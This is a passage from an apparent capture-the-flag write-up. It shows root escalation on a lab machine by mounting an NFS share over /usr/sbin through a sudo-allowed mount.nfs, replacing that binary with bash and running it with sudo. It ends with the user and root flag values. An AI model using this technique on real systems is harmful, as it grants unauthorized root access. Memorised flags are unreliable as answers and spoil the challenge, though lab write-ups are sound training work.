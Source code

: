 ![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702185446.png)

Now, let's restart the service:

```
sudo exportfs -a

sudo systemctl restart nfs-kernel-server
```

We can now attempt to connect using sudo on the machine:

```
sudo /usr/sbin/mount.nfs -o port=443 10.14.21.28:/tmp/share /usr/sbin
```

If we check `/usr/sbin`, we can now realize it is writable:

```
jojo@tonhotel:/$ ls -la /usr/sbin
total 4
drwxrwxrwx  2 nobody nogroup   40 Jul  2 23:49 .
drwxr-xr-x 14 root   root    4096 Aug 31  2022 ..
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702190134.png)

We can simply replace `/usr/sbin/mount.nfs` with `/bin/bash`:

```
cp /bin/bash /usr/sbin/mount.nfs

jojo@tonhotel:/$ ls -la /usr/sbin
total 1160
drwxrwxrwx  2 nobody nogroup      60 Jul  3 00:01 .
drwxr-xr-x 14 root   root       4096 Aug 31  2022 ..
-rwxr-xr-x  1 jojo   jojo    1183448 Jul  3 00:01 mount.nfs
```

Now, let's use sudo to get our shell:

```
jojo@tonhotel:/$ sudo /usr/sbin/mount.nfs
root@tonhotel:/# whoami
root
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702190338.png)

There we go, let's get both flags and end the CTF:

```
root@tonhotel:/# cat /home/sandra/user.txt
thm{5b23d1881ee6a6cfac85866b9a4ff941ecd2fa3e}

root@tonhotel:/# cat /root/root.txt
thm{7f6b4d8aee9e1677a0db343ace5fff23fc5b5d3b}
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702190453.png)


